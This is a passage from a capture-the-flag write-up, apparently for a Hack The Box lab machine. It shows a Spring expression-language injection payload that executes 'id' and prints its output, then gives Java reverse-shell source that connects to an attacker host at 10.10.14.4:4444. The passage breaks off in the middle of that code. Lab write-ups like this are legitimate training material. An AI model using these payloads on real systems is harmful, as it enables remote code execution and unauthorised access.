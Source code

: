 I used the above tool to generate a payload to check 'id':

```sh
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

This revealed we are running as user woodenk. Thank goodness, we already know they have terminal access and mysql. They are also a member of the logs group.

```sh
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

I wanted to see if we could nab their ssh key, but instead discovered the user flag. Here is the result of *ls -a /home/woodenk* :

```sh
. .. .bash_history .bash_logout .bashrc .cache .local .m2 .profile user.txt
```

Maybe I can put an extra file with a reverse shell somewhere in the server..?

Put a pin in that. For now, checking what logs are available:

```sh
apt auth.log auth.log.1 auth.log.2.gz btmp btmp.1 dist-upgrade dmesg dmesg.0 dmesg.1.gz dpkg.log dpkg.log.1 installer journal kern.log kern.log.1 kern.log.2.gz landscape lastlog mysql private syslog syslog.1 syslog.2.gz syslog.3.gz ubuntu-advantage.log ubuntu-advantage-timer.log vmware-network.1.log vmware-network.2.log vmware-network.log vmware-vmsvc-root.1.log vmware-vmsvc-root.2.log vmware-vmsvc-root.log vmware-vmtoolsd-root.log wtmp
```

Checking the running processes with *ps -e*, nothing of note really.

Is netcat present?

*Yes! it is present! it's at /usr/bin/nc*

I can connect using nc to my attacker box, but can't seem to get a shell... what the heck! Maybe I need to b64 encode it? 

Curl is present, and obviously the target machine can reach out over port 8080 (that the webserver is proxied through), so I can transfer files using curl from my attacker machine to the target machine. And I've verified javac is present on the target machine. **How about setting up a java reverse shell instead?** 

> I would prefer python, perl, sh, *or really anything else*. But it looks like only java is present on this machine. 😞

And... It worked! :happy: 

I did the following to establish the java reverse shell:

Create the file C.java (modified from [here](https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0)):

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class C {

  public static void main(String[] args) throws Exception {
    String host="10.10.14.4";
    int port=4444;
    String cmd="/bin/sh";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
    Socket s=new Socket(host,port);
    InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
    OutputStream po=p.getOutputStream(),so=s.getOutputStream();
```